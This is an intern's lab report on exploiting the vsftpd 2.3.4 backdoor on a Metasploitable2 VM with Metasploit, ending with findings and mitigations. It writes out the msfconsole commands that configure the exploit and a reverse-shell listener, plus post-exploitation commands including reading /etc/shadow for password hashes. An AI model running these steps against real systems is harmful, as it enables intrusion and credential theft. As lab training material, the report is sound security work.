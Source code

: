 # Exploitation with Metasploit — Internship Task

**Date:** 2025-10-18
**Author:** Aman Jiwani (intern)
**Target / Lab:** Metasploitable2 (192.168.56.104)
**Scope:** Exploit a known vulnerability, obtain a reverse shell, and run post‑exploitation commands to gather system information and password hashes. Performed in a controlled lab environment.

---

## Executive summary

This lab demonstrates exploitation of a known backdoor in `vsftpd 2.3.4` on the Metasploitable2 target using the Metasploit Framework. The exploit spawned a reverse/interactive shell. With root privileges, basic system information was collected and the `/etc/shadow` file was inspected as proof of access.

**Impact (lab):** Full compromise of the Metasploitable2 VM (root shell obtained).

**Recommendation (summary):** Patch or remove vulnerable services, restrict network exposure, and follow incident response procedures if this were a production system.

---

## Methodology

Phases followed:

1. Recon & scanning — identify vulnerable service/version (nmap).
2. Exploitation — select and configure Metasploit module.
3. Post‑exploitation — gather sysinfo-equivalent details and dump password hashes (lab proof only).
4. Reporting — document findings and remediation.

---

## Tools used

* `nmap` — service/version discovery
* `msfconsole` (Metasploit Framework) — exploit and session handling
* Standard system commands on compromised host: `id`, `uname -a`, `hostname`, `uptime`, `cat /etc/shadow`

---

## Exploitation steps (commands used)

**Metasploit: configure and run the exploit**

```text
# start msfconsole
msfconsole

# select module
use exploit/unix/ftp/vsftpd_234_backdoor

# configure target and listener
set RHOST 192.168.56.104
set LHOST 192.168.56.105
set LPORT 4444

# run exploit
exploit
```

**Notes:**

* The `vsftpd_234_backdoor` module targets the backdoor present in vsftpd v2.3.4; it spawns an interactive command shell when successful.

---

## Post‑exploitation (commands & rationale)

**Quick system information (equivalent to `sysinfo`)**

```bash
id
uname -a
hostname
uptime
```

* `id` — verify user and group IDs (shows `uid=0(root)` when root)
* `uname -a` — kernel and OS details
* `hostname` — machine identifier
* `uptime` — system run-time (useful for timeline/context)

**Dump password hashes (equivalent to `hashdump`)**
Because the session has root privileges in this lab, `/etc/shadow` is readable:

```bash
cat /etc/shadow
```

**Evidence & notes:** Capture and save terminal output as evidence (sanitized for reports). Do not exfiltrate real credentials; treat any found secrets as sensitive.

---

## Findings & Risk

* **Vulnerable service:** vsftpd 2.3.4 (backdoor) — **Critical**
* **Impact:** Remote code execution → root shell → potential full system compromise.
* **Evidence:** Metasploit module output, interactive shell session, `id` showing `root`, `/etc/shadow` contents accessible.

---

## Mitigations & Recommendations

1. **Patch or remove the vulnerable service** (upgrade vsftpd or replace with a supported secure alternative).
2. **Network controls:** Block or restrict FTP (port 21) to trusted internal hosts only.
3. **Least privilege:** Run services with minimal privileges and avoid running unnecessary services as root.
4. **Monitoring & alerting:** Detect unusual service banners and unexpected shells/listener activity. Alert on access to sensitive files like `/etc/shadow`.
5. **Incident response (if production):** Isolate affected host, collect forensic evidence, rebuild from a trusted image, rotate credentials, and identify root cause and lateral movement.

---

